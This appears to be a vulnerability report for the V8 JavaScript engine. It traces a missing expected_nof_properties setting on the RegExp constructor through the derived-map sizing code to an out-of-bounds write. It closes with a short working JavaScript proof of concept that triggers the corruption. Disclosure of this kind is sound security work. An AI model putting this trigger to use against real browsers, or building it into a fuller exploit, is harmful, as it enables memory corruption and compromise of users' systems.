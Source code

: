 Bug:
The Genesis::InitializeGlobal method initializes the constructor of RegExp as follows:
    // Builtin functions for RegExp.prototype.
    Handle<JSFunction> regexp_fun = InstallFunction(
        global, "RegExp", JS_REGEXP_TYPE,
        JSRegExp::kSize + JSRegExp::kInObjectFieldCount * kPointerSize,
        JSRegExp::kInObjectFieldCount, factory->the_hole_value(),
        Builtins::kRegExpConstructor);
    InstallWithIntrinsicDefaultProto(isolate, regexp_fun,
                                     Context::REGEXP_FUNCTION_INDEX);

    Handle<SharedFunctionInfo> shared(regexp_fun->shared(), isolate);
    shared->SetConstructStub(*BUILTIN_CODE(isolate, JSBuiltinsConstructStub));
    shared->set_instance_class_name(isolate->heap()->RegExp_string());
    shared->set_internal_formal_parameter_count(2);
    shared->set_length(2);

    ...

I think "shared->expected_nof_properties()" should be the same as JSRegExp::kInObjectFieldCount. But it doesn't set "expected_nof_properties", it remains 0.

There are other constructors that don't set "expected_nof_properties", but RegExp was the only useable constructor to exploit.

Exploit:
This can affect JSFunction::GetDerivedMap, which is used to create or get a Map object for the given constructor and "new.target", to incorrectly compute the number of in-object properties.

Here's a snippet of the method.
(https://cs.chromium.org/chromium/src/v8/src/objects.cc?rcl=0c287882ea233f299a91f6b72b56d8faaecf52c0&l=12966)

MaybeHandle<Map> JSFunction::GetDerivedMap(Isolate* isolate,
                                           Handle<JSFunction> constructor,
                                           Handle<JSReceiver> new_target) {
  ...
  // Fast case, new.target is a subclass of constructor. The map is cacheable
  // (and may already have been cached). new.target.prototype is guaranteed to
  // be a JSReceiver.
  if (new_target->IsJSFunction()) {
    Handle<JSFunction> function = Handle<JSFunction>::cast(new_target);
    ...

    // Create a new map with the size and number of in-object properties
    // suggested by |function|.

    // Link initial map and constructor function if the new.target is actually a
    // subclass constructor.
    if (IsDerivedConstructor(function->shared()->kind())) {
      Handle<Object> prototype(function->instance_prototype(), isolate);
      InstanceType instance_type = constructor_initial_map->instance_type();
      DCHECK(CanSubclassHaveInobjectProperties(instance_type));
      int embedder_fields =
          JSObject::GetEmbedderFieldCount(*constructor_initial_map);
      int pre_allocated = constructor_initial_map->GetInObjectProperties() -
                          constructor_initial_map->UnusedPropertyFields();
      int instance_size;
      int in_object_properties;
      CalculateInstanceSizeForDerivedClass(function, instance_type,
                                           embedder_fields, &instance_size,
                                           &in_object_properties);

      int unused_property_fields = in_object_properties - pre_allocated;
      Handle<Map> map =
          Map::CopyInitialMap(constructor_initial_map, instance_size,
                              in_object_properties, unused_property_fields);
      ...
      return map;
    }
  }

"unused_property_fields" is obtained by subtracting "pre_allocated" from "in_object_properties". And "in_object_properties" is obtained by adding the number of properties of "new_target" and its all super constructors using CalculateInstanceSizeForDerivedClass.

Here's CalculateInstanceSizeForDerivedClass.

void JSFunction::CalculateInstanceSizeForDerivedClass(
    Handle<JSFunction> function, InstanceType instance_type,
    int requested_embedder_fields, int* instance_size,
    int* in_object_properties) {
  Isolate* isolate = function->GetIsolate();
  int expected_nof_properties = 0;
  for (PrototypeIterator iter(isolate, function, kStartAtReceiver);
       !iter.IsAtEnd(); iter.Advance()) {
    Handle<JSReceiver> current =
        PrototypeIterator::GetCurrent<JSReceiver>(iter);
    if (!current->IsJSFunction()) break;
    Handle<JSFunction> func(Handle<JSFunction>::cast(current));
    // The super constructor should be compiled for the number of expected
    // properties to be available.
    Handle<SharedFunctionInfo> shared(func->shared());
    if (shared->is_compiled() ||
        Compiler::Compile(func, Compiler::CLEAR_EXCEPTION)) {
      DCHECK(shared->is_compiled());
      expected_nof_properties += shared->expected_nof_properties();
    }
    if (!IsDerivedConstructor(shared->kind())) {
      break;
    }
  }
  CalculateInstanceSizeHelper(instance_type, true, requested_embedder_fields,
                              expected_nof_properties, instance_size,
                              in_object_properties);
}

It iterates over all the super constructors, and sums each constructor's "expected_nof_properties()".

If it fails to compile the constructor using Compiler::Compile due to somthing like a syntax error, it just clears the exception, and skips to the next iteration (Should this also count as a bug?).

So using these, we can make "pre_allocated" higher than "in_object_properties" which may lead to OOB reads/writes.

PoC:
function gc() {
    for (let i = 0; i < 20; i++)
        new ArrayBuffer(0x2000000);
}

class Derived extends RegExp {
    constructor(a) {
        const a = 1;  // syntax error, Derived->expected_nof_properties() skipped
    }
}

let o = Reflect.construct(RegExp, [], Derived);
o.lastIndex = 0x1234;  // OOB write

gc();

/*
  int pre_allocated = constructor_initial_map->GetInObjectProperties() -  // 1
                      constructor_initial_map->UnusedPropertyFields();    // 0
  int instance_size;
  int in_object_properties;
  CalculateInstanceSizeForDerivedClass(function, instance_type,
                                       embedder_fields, &instance_size,
                                       &in_object_properties);

  // in_object_properties == 0, pre_allocated == 1
  int unused_property_fields = in_object_properties - pre_allocated;
*/

Another bug?
There's a comment saying "Fast case, new.target is a subclass of constructor." in the JSFunction::GetDerivedMap method, but it doesn't check that "new_target" is actually a subclass of "constructor". So if "new_target" is not a subclass of "constructor", "pre_allocated" can be higher than "in_object_properties". To exploit this, it required to be able to change the value of "constructor_initial_map->UnusedPropertyFields()", but I couldn't find any way. So I'm not so sure about this part.
